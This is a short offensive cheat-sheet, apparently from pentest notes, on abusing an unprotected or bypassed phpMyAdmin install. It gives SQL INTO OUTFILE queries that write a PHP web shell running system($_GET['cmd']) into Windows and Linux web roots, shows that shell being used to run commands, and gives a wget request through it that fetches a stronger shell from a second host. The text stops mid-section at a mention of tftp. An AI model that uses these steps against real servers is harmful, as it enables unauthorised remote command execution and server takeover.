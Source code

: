 # phpMyAdmin

If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.

You go to:
```
http://192.168.1.101/phpmyadmin/
```

Then click on SQL. 

```
Run SQL query/queries on server "localhost":
```
From here we can just run a sql-query that creates a php script that works as a shell

So we add the following query:
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"

# For linux
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```
The query is pretty self-explanatory. Now you just visit `192.168.1.101/shell.php?cmd=ipconfig` and you have a working web-shell.
We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.

## Download a better shell

On linux-machines we can use wget to download a more powerful shell.

```
?cmd=wget%20192.168.1.102/shell.php
```

On windows-machines we can use tftp. 

